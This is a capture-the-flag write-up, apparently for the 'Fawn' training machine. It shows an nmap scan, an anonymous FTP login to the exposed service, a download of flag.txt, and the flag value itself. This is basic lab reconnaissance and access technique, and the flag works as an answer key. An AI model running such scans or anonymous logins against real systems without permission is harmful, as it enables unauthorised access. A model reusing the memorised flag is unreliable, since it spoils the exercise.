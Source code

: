 ```yaml
---
layout: default
title: Fawn
---
```


First, we execute `nmap` to gather info:
```bash
nmap -sVC -T4 $target
```

![nmap](image.png)

As we can see, port 21 is opened, and has `ftp` service that is runing there:
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.205
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix
```

We want to try to login anonymously using `anonymous`, and maybe we won't need to supply any password.
```bash
ftp anonymous@$target
```

![ftp success](image-1.png)

As we can see, it worked.

So, now we'll run `ls` to view which files it has, as we can see it has the `flag.txt`, so let's take it to our local machine using 
```bash
get flag.txt
```

![get flag](image-2.png)

**Flag:*****`035db21c881520061c53e0536e44f815`***
